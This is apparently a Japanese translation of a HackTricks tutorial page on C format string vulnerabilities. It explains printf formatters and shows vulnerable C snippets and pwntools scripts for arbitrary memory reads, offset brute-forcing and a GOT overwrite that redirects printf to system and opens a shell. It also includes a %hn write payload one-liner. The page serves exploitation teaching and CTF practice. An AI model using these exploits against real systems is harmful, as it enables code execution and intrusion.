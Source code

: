 # フォーマット文字列

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## 基本情報

Cの**`printf`**は、いくつかの文字列を**出力**するために使用できる関数です。この関数が期待する**最初のパラメータ**は、**フォーマッタを含む生のテキスト**です。次に期待される**パラメータ**は、生のテキストから**フォーマッタを置き換えるための値**です。

他の脆弱な関数には**`sprintf()`**と**`fprintf()`**があります。

脆弱性は、**攻撃者のテキストがこの関数の最初の引数として使用されるとき**に現れます。攻撃者は、**printfフォーマット**文字列の機能を悪用して、**任意のアドレス（読み取り可能/書き込み可能）にある任意のデータを読み書きする**ための**特別な入力を作成**することができます。この方法で**任意のコードを実行**することが可能です。

#### フォーマッタ：
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**例:**

* 脆弱な例:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 通常の使用:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 引数が欠落している場合:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf 脆弱性:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **ポインタへのアクセス**

フォーマット **`%<n>$x`** は、`n` が数字である場合、printf にスタックから n 番目のパラメータを選択するよう指示します。したがって、printf を使用してスタックから 4 番目のパラメータを読み取りたい場合は、次のようにできます:
```c
printf("%x %x %x %x")
```
そして、最初から4番目のパラメータまで読み取ることができます。

または、次のようにできます：
```c
printf("%4$x")
```
そして直接4番目を読み取ります。

攻撃者が`printf`の**パラメータを制御していることに注意してください。これは基本的に、**彼の入力が`printf`が呼び出されるときにスタックに存在することを意味し、特定のメモリアドレスをスタックに書き込むことができることを意味します。

{% hint style="danger" %}
この入力を制御する攻撃者は、**スタックに任意のアドレスを追加し、`printf`がそれにアクセスできるようにします**。次のセクションでは、この動作をどのように利用するかが説明されます。
{% endhint %}

## **任意の読み取り**

フォーマッタ**`%n$s`**を使用して、**`printf`**が**n位置**にある**アドレス**を取得し、それを**文字列のように印刷する**ことが可能です（0x00が見つかるまで印刷します）。したがって、バイナリのベースアドレスが**`0x8048000`**であり、ユーザー入力がスタックの4番目の位置から始まることがわかっている場合、次のようにバイナリの先頭を印刷することができます：
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
注意：入力の最初にアドレス0x8048000を置くことはできません。なぜなら、そのアドレスの末尾に0x00が付加されるからです。
{% endhint %}

### オフセットを見つける

入力のオフセットを見つけるには、4バイトまたは8バイト（`0x41414141`）を送信し、その後に**`%1$x`**を続けて、`A`の値が取得されるまで**増加**させます。

<details>

<summary>ブルートフォースprintfオフセット</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### どれほど役立つか

任意の読み取りは以下の目的に役立ちます：

* **メモリから** **バイナリ**を**ダンプ**する
* **カナリア、暗号化キー、またはこの[**CTFチャレンジ**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)のようなカスタムパスワード**が保存されているメモリの特定の部分に**アクセス**する

## **任意の書き込み**

フォーマッタ **`%<num>$n`** は、スタックの\<num>パラメータにある**指定されたアドレス**に**書き込まれたバイト数**を**書き込みます**。攻撃者がprintfを使って任意の数の文字を書き込むことができれば、**`%<num>$n`** を使って任意のアドレスに任意の数を**書き込む**ことができるようになります。

幸いなことに、9999という数を書くために、入力に9999個の"A"を追加する必要はなく、フォーマッタ **`%.<num-write>%<num>$n`** を使用して、**`num`位置が指すアドレスに** **`<num-write>`**という数を書くことが可能です。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
しかし、通常、`0x08049724`のようなアドレスを書くためには（これは一度に書くには非常に大きな数です）、**`$hn`**が**`$n`**の代わりに使用されます。これにより、**2バイトだけを書く**ことができます。したがって、この操作は2回行われ、アドレスの最上位2バイトと最下位2バイトのそれぞれに対して行われます。

したがって、この脆弱性は**任意のアドレスに何でも書き込むことを可能にします（任意書き込み）。**

この例では、目標は**後で呼び出される**関数の**アドレス**を**上書き**することです。これは他の任意書き込みからexec技術を悪用することもできます：

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

私たちは、**ユーザー**から**引数**を**受け取る**関数を**上書き**し、それを**`system`**関数に**ポイント**します。\
前述のように、アドレスを書くためには通常2ステップが必要です：最初にアドレスの2バイトを書き、その後に残りの2バイトを書きます。そのために**`$hn`**が使用されます。

* **HOB**はアドレスの上位2バイトに呼び出されます
* **LOB**はアドレスの下位2バイトに呼び出されます

次に、フォーマット文字列の動作のために、最初に\[HOB, LOB\]の中で最小のものを**書く必要があります**、その後にもう一方を書きます。

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools テンプレート

この種の脆弱性に対するエクスプロイトを準備するための**テンプレート**は、以下にあります：

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

または、[**こちら**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)の基本的な例もあります：
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## フォーマット文字列からBOFへ

フォーマット文字列の脆弱性の書き込みアクションを悪用して、**スタックのアドレスに書き込む**ことが可能であり、**バッファオーバーフロー**タイプの脆弱性を悪用することができます。

## その他の例と参考文献

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32ビット、relroなし、canaryなし、nx、pieなし、スタックからフラグを漏洩させるためのフォーマット文字列の基本的な使用（実行フローを変更する必要はありません）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、win関数で`fflush`のアドレスを上書きするためのフォーマット文字列（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32ビット、relroあり、canaryなし、nx、pieなし、`.fini_array`内のmainのアドレスに書き込むためのフォーマット文字列（フローがもう1回ループバックするように）および`strlen`を指すGOTテーブル内の`system`へのアドレスを書き込む。フローがmainに戻ると、`strlen`がユーザー入力で実行され、`system`を指すと、渡されたコマンドが実行されます。

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
